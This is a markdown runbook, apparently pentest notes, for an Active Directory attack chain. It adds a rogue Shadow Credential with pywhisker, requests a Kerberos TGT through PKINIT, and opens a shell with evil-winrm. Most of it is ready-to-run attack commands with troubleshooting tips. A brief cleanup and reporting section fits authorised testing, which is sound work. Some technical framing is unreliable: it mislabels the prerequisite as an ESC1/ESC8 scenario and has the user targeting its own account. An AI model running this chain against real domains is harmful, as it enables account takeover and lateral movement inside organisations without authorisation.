 ```yaml
---
title: "Shadow Credentials → PKINIT TGT → User Shell"
category: runbook
tags: [active-directory, shadow-creds, pywhisker, pkinit, kerberos, evil-winrm]
---
```


# Shadow Credentials → PKINIT TGT → User Shell 

**TL;DR**  
Abuse **Shadow Credentials** using `pywhisker` to register a rogue certificate for a user account. With that certificate, use **PKINIT** to request a Kerberos **TGT**. Load the ticket (ccache) and authenticate via **Evil‑WinRM** or other Kerberos-aware tooling to obtain a shell.

---

## Goal
- Add malicious **certificate-based credentials** (Shadow Creds) to a target AD user via `pywhisker`.
- Use the resulting PFX to request a Kerberos TGT via `gettgtpkinit.py`.
- Load TGT and confirm with `klist`.
- Leverage Kerberos auth (`-r` realm flag or environment ticket) in `evil-winrm` for shell.

## Prerequisites
- `pywhisker` cloned and working environment (`pip install -r requirements.txt`).
- `PKINITtools` and `oscrypto` fix configured.
- Attacker host has `/etc/krb5.conf` pointing to correct realm and DC.
- Domain user target is **shadow-credential vulnerable** (ESC1 / ESC8 scenario).  
- Time sync maintained for Kerberos.

---

## High-Level Flow
1) `pywhisker add` → register malicious certificate for target user.  
2) Export `.pfx` certificate.  
3) Use `gettgtpkinit.py` to request TGT.  
4) Export ccache, set `KRB5CCNAME`.  
5) Confirm with `klist`.  
6) Use `evil-winrm -r` or Kerberos auth option to get shell.

---

## Commands

### 1) Add Shadow Credential
```bash
# Example syntax, adjust for victim user & domain
python3 pywhisker.py add \
  -d domain.local \
  -u alice \
  -p 'Password1!' \
  --target "alice@domain.local" \
  --pfx alice.pfx \
  --pass alicePFXpass
```
> This registers a new key credential link for the user. Confirm the PFX saved correctly.

### 2) Request TGT via PKINIT
```bash
# Base64 method or direct PFX usage
python3 gettgtpkinit.py domain.local/alice@DOMAIN.LOCAL \
  -cert-pfx alice.pfx \
  -pfx-pass alicePFXpass \
  -dc-ip DC_IP \
  alice.ccache
```

### 3) Export & Verify Ticket
```bash
export KRB5CCNAME=$(pwd)/alice.ccache
klist
```
> `klist` should show a valid TGT for `alice@DOMAIN.LOCAL`.

### 4) Kerberos Shell (Evil‑WinRM)
```bash
evil-winrm -i dc01.domain.local -r domain.local
# or with -s netexec (if using netexec/nxc) with -k for Kerberos
```

---

## Troubleshooting
- If `pywhisker add` fails, check ACLs and that Shadow Creds is not blocked (ESC1/ESC8 prerequisites).  
- If PKINIT errors, verify CA trust, correct user principal, time sync.  
- Ensure `/etc/hosts` maps `dc01.domain.local` to correct IP.  
- Confirm `KRB5CCNAME` is exported before running `evil-winrm`.

## What This Demonstrates
- Modern AD trust abuse via Shadow Credentials.  
- Certificate-based authentication for Kerberos (PKINIT) without password.  
- Lateral move to interactive shell using TGT only (no NTLM needed).

## Cleanup & Safety
- Remove rogue credential from the user post-testing (`pywhisker remove`).  
- Delete `.pfx` and `.ccache` from attacker host.  
- Report misconfiguration: enforce strong ACLs around KeyCredentialLink / Certificate Templates.

---

## Tools (reference)
- `pywhisker` — Shadow Credentials manipulation.  
- `gettgtpkinit.py` (PKINITtools) — TGT from PFX.  
- `evil-winrm` — Kerberos shell (with `-r` realm flag).  
- Optional: `netexec` with `-k` for Kerberos.

